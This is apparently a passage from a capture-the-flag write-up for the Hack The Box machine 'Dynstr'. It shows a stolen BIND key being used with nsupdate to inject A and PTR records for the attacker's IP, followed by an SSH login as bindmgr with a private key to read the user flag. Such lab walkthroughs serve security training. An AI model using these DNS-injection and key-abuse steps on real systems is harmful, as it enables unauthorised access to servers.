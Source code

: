 Let's first do a POC to check if we can successfully add our infra.key to the DNS records. From the output, we can see that we have successfully added infra.key to our DNS records
```
www-data@dynstr:/$ nsupdate -k /etc/bind/infra.key
nsupdate -k /etc/bind/infra.key
> update add test.infra.dyna.htb 86400 a 10.10.16.250
update add test.infra.dyna.htb 86400 a 10.10.16.250
> send
send
> show
show
Outgoing update query:
;; ->>HEADER<<- opcode: UPDATE, status: NOERROR, id:      0
;; flags:; ZONE: 0, PREREQ: 0, UPDATE: 0, ADDITIONAL: 0
> quit
quit
www-data@dynstr:/$ nslookup test.infra.dyna.htb
nslookup test.infra.dyna.htb
Server:         127.0.0.1
Address:        127.0.0.1#53
Name:   test.infra.dyna.htb
Address: 10.10.16.250
www-data@dynstr:/$ 
```
However, we will still not be able to SSH with this new DNS record. The reason being that SSH does reverse IP address lookup. Hence, we will need to add a PTR record to the DNS entry. Additionally, we will not be able to use the DNS zone that we have created above as they have already been activated.
```
www-data@dynstr:/$ nsupdate -k /etc/bind/infra.key
nsupdate -k /etc/bind/infra.key
> update add check.infra.dyna.htb 86400 A 10.10.16.250
update add check.infra.dyna.htb 86400 A 10.10.16.250
> 

> update add 250.16.10.10.in-addr.arpa 300 PTR check.infra.dyna.htb
update add 250.16.10.10.in-addr.arpa 300 PTR check.infra.dyna.htb
> show
show
Outgoing update query:
;; ->>HEADER<<- opcode: UPDATE, status: NOERROR, id:      0
;; flags:; ZONE: 0, PREREQ: 0, UPDATE: 0, ADDITIONAL: 0
;; UPDATE SECTION:
250.16.10.10.in-addr.arpa. 300  IN      PTR     check.infra.dyna.htb.

> 

> send
send
> quit
quit
```
Now, we will SSH into the server and we would realize that we no longer require a password to SSH into the server.
```
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh -i ssh_key bindmgr@10.10.10.244                                                         8 ⚙
Last login: Tue Jun  8 19:19:17 2021 from 6146f0a384024b2d9898129ccfee3408.infra.dyna.htb
bindmgr@dynstr:~$ ls
support-case-C62796521  user.txt
bindmgr@dynstr:~$ cat user.txt
<Redacted user flag>
bindmgr@dynstr:~$ 
```

